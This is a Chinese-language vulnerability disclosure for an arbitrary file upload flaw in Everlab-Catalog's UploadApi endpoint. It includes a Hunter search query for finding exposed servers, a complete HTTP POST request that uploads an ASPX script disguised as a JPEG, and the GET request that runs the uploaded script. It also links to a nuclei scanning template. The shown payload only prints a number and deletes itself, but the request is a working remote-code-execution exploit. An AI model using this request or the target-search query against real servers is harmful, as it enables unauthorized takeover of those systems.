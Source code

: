 # 一、漏洞简介
Everlab-Catalog UploadApi存在文件上传漏洞，攻击者可通过该漏洞获取服务器权限。

# 二、影响版本
+ Everlab-Catalog 

# 三、资产测绘
+ Hunter`web.body="Everlab-Catalog"`
+ 特征

![](images/1703513896192-bf6c7b0e-1d5e-4545-b55a-407ad59256a2.png)

# 四、漏洞复现
```plain
POST /Util/UploadApi HTTP/1.1
Host: {hostname}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/115.0
Content-Length: 345
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,/;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
Content-Type: multipart/form-data; boundary=---------------------------7153094104923513110228090822
Origin: null
Upgrade-Insecure-Requests: 1
Connection: close

-----------------------------7153094104923513110228090822
Content-Disposition: form-data; name="Filedata"; filename="ckviaxtcmw.aspx"
Content-Type: image/jpeg

<%@ Page Language="C#"%><% Response.Write(111*111);System.IO.File.Delete(Server.MapPath(Request.Url.AbsolutePath)); %>
-----------------------------7153094104923513110228090822--

```

![](images/1703513931405-8fbd85c0-98fc-426d-a6ad-7bab865b19ea.png)

上传文件位置

```plain
GET /upload/2023/12/25/bef4dd40-de3b-4139-837a-784f534a1e00.aspx HTTP/1.1
Host: {hostname}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Connection: close
Accept-Encoding: gzip, deflate
```

![](images/1703513963267-8108007f-98dd-4179-b29d-fbd552f1363e.png)

nuclei脚本

[Everlab-Catalog-uploadapi-任意文件上传.yaml](https://www.yuque.com/attachments/yuque/0/2024/yaml/1622799/1709222142716-42d94242-5e06-480f-a23c-443247a2d97d.yaml)

